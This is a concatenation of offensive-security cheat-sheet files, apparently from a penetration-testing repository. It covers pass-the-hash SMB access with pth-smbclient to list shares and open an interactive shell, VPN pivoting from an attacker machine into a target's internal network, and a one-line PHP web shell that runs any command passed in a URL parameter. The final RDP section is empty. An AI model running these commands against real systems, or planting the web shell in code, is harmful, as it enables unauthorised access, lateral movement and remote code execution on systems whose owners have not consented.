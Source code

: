 
#### Listing shared folders

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  -L <target_ip> \\\\<target_ip>\\ <hash>

`sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad`

#### Interactive smb shell

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  \\\\<target_ip>\\shared_folder <hash>

`sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad`



---
File: /CheatSheets/pivoting/readme.md
---

# Pivoting
---

## VPNPivot

#### On attacker machine

`$ sudo pivots -i <iface> -p <port> -H <mac> -v`

* __iface__ - is the virtual interface for the vpn itself, as example openvpn often creates tap0 or tun0, you can choose whaterver you want, like pwn0;
* __mac__ - MAC address for the newly created device;
* __port__ - whatever unused port you want


#### On target machine

`$ sudo pivotc <attacker-ip> <previously defined port> <internal network gateway ip>`



---
File: /CheatSheets/RCE/README.md
---

# WEB Remote Code Execution

## Simple PHP RCE
`<? echo shell_exec($_GET['cmd']); ?>`




---
File: /CheatSheets/RDP/readme.md
---

